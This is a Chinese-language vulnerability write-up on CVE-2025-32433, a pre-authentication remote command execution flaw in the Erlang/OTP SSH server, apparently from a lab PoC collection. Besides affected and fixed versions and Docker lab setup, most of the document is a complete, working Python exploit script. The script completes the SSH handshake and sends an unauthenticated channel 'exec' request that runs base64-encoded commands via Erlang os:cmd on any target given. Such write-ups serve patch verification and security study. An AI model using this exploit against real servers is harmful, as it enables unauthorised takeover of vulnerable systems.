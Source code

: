 # Erlang/OTP SSH 未授权远程代码执行漏洞 CVE-2025-32433

## 漏洞描述

Erlang/OTP SSH 是 Erlang/OTP 平台自带的 SSH 服务器组件。

在 Erlang/OTP SSH 服务端中发现了一个高危漏洞，攻击者可通过构造特定的 SSH 协议消息，在未认证的情况下远程执行任意系统命令。受影响版本包括 OTP-27.3.2 及更早版本、OTP-26.2.5.10 及更早版本，以及 OTP-25.3.2.19 及更早版本。

参考链接：

- https://github.com/erlang/otp/security/advisories/GHSA-37cp-fgq5-7wc2
- https://github.com/erlang/otp/commit/6eef04130afc8b0ccb63c9a0d8650209cf54892f#diff-ceeb1aeeb602e1424c13d9da9383e0782f65869d6e64e015c194145b1a64edcd
- https://github.com/ProDefense/CVE-2025-32433
- https://datatracker.ietf.org/doc/html/rfc4254

## 漏洞影响

```
<= OTP 27.3.2
<= OTP 26.2.5.10
<= OTP 25.3.2.19
>= OTP 17.0 and older (likely)
```

## 环境搭建

Vulhub 执行如下命令启动一个用 Erlang/OTP 27.3.2 编写的 SSH 服务器：

```
docker compose up -d
```

环境启动后，容器内会运行 Erlang SSH 服务，监听 2222 端口，并映射到本地主机的 2222 端口。可通过 SSH 工具或漏洞利用脚本进行访问和测试。

## 漏洞复现

使用提供的 [exploit.py](https://github.com/vulhub/vulhub/blob/master/erlang/CVE-2025-32433/exploit.py) 脚本即可复现漏洞：

```
python exploit.py -t <your-ip> -p 2222 -c "touch /tmp/awesome_poc"
```

![](images/Erlang%20OTP%20SSH未授权远程代码执行漏洞%20CVE-2025-32433/image-20250506104555824.png)

该脚本通过发送特制的 `SSH_MSG_CHANNEL_REQUEST`（消息编号 94）协议包，利用服务端处理缺陷，直接在未认证阶段执行任意命令。根据 RFC 4254，相关消息结构如下：

```
byte      SSH_MSG_CHANNEL_REQUEST
uint32    recipient channel
string    "exec"
boolean   want reply
string    command
```

命令执行成功后，进入容器即可看到 `/tmp/awesome_poc` 文件已被创建：

![](images/Erlang%20OTP%20SSH未授权远程代码执行漏洞%20CVE-2025-32433/image-20250506104742653.png)

## 漏洞 POC

exploit.py

```python
import socket
import struct
import time
import argparse
import base64

# Helper to format SSH string (4-byte length + bytes)
def string_payload(s):
    s_bytes = s.encode("utf-8")
    return struct.pack(">I", len(s_bytes)) + s_bytes

# Builds SSH_MSG_CHANNEL_OPEN for session
def build_channel_open(channel_id=0):
    return (
        b"\x5a"  # SSH_MSG_CHANNEL_OPEN
        + string_payload("session")
        + struct.pack(">I", channel_id)  # sender channel ID
        + struct.pack(">I", 0x68000)  # initial window size
        + struct.pack(">I", 0x10000)  # max packet size
    )

# Builds SSH_MSG_CHANNEL_REQUEST with 'exec' payload
def build_channel_request(channel_id=0, command=None):
    return (
        b"\x62"  # SSH_MSG_CHANNEL_REQUEST
        + struct.pack(">I", channel_id)
        + string_payload("exec")
        + b"\x01"  # want_reply = true
        + string_payload(command)
    )

# Builds a minimal but valid SSH_MSG_KEXINIT packet
def build_kexinit():
    cookie = b"\x00" * 16

    def name_list(l):
        return string_payload(",".join(l))

    # Match server-supported algorithms from the log
    return (
        b"\x14"
        + cookie
        + name_list(
            [
                "curve25519-sha256",
                "ecdh-sha2-nistp256",
                "diffie-hellman-group-exchange-sha256",
                "diffie-hellman-group14-sha256",
            ]
        )  # kex algorithms
        + name_list(["rsa-sha2-256", "rsa-sha2-512"])  # host key algorithms
        + name_list(["aes128-ctr"]) * 2  # encryption client->server, server->client
        + name_list(["hmac-sha1"]) * 2  # MAC algorithms
        + name_list(["none"]) * 2  # compression
        + name_list([]) * 2  # languages
        + b"\x00"
        + struct.pack(">I", 0)  # first_kex_packet_follows, reserved
    )

# Pads a packet to match SSH framing
def pad_packet(payload, block_size=8):
    min_padding = 4
    padding_len = block_size - ((len(payload) + 5) % block_size)
    if padding_len < min_padding:
        padding_len += block_size
    return (
        struct.pack(">I", len(payload) + 1 + padding_len)
        + bytes([padding_len])
        + payload
        + bytes([0] * padding_len)
    )

# Convert system command to Erlang os:cmd format
def format_erlang_command(cmd):
    # Use base64 encoding to avoid escaping issues
    encoded_cmd = base64.b64encode(cmd.encode()).decode()
    # Create Erlang code that decodes and executes the command
    return f'os:cmd(binary_to_list(base64:decode("{encoded_cmd}"))).'

# === Exploit flow ===
def main():
    # Parse command line arguments
    parser = argparse.ArgumentParser(description='Exploit for Erlang CVE-2025-32433')
    parser.add_argument('-t', '--target', default="127.0.0.1", help='Target IP address (default: 127.0.0.1)')
    parser.add_argument('-p', '--port', type=int, default=2222, help='Target port (default: 2222)')
    parser.add_argument('-c', '--command', help='System command to execute (for example: touch /tmp/success)')
    parser.add_argument('-e', '--erlang', help='Interpret command as raw Erlang code instead of system command. (for example: os:cmd("touch /tmp/success").)')
    args = parser.parse_args()

    # Convert system command to Erlang command unless --erlang flag is used
    if args.erlang:
        erlang_cmd = args.erlang
    elif args.command:
        erlang_cmd = format_erlang_command(args.command)
    else:
        print(parser.print_help())
        return

    try:
        with socket.create_connection((args.target, args.port), timeout=5) as s:
            print("[*] Connecting to SSH server...")

            # 1. Banner exchange
            s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
            banner = s.recv(1024)
            print(f"[+] Received banner: {banner.strip().decode(errors='ignore')}")
            time.sleep(0.5)  # Small delay between packets

            # 2. Send SSH_MSG_KEXINIT
            print("[*] Sending SSH_MSG_KEXINIT...")
            kex_packet = build_kexinit()
            s.sendall(pad_packet(kex_packet))
            time.sleep(0.5)  # Small delay between packets

            # 3. Send SSH_MSG_CHANNEL_OPEN
            print("[*] Sending SSH_MSG_CHANNEL_OPEN...")
            chan_open = build_channel_open()
            s.sendall(pad_packet(chan_open))
            time.sleep(0.5)  # Small delay between packets

            # 4. Send SSH_MSG_CHANNEL_REQUEST (pre-auth!)
            print("[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...")
            print(f"[*] Erlang payload: {erlang_cmd}")
            chan_req = build_channel_request(command=erlang_cmd)
            s.sendall(pad_packet(chan_req))

            print(
                f"[✓] Exploit sent! Command executed on target"
            )

            # Try to receive any response (might get a protocol error or disconnect)
            try:
                response = s.recv(1024)
                print(f"[+] Received response: {response.hex()}")
            except socket.timeout:
                print("[*] No response within timeout period (which is expected)")

    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    main()
```

## 漏洞修复

该漏洞在 OTP 27.3.3、OTP 26.2.5.11、OTP 25.3.2.20 中被修复。
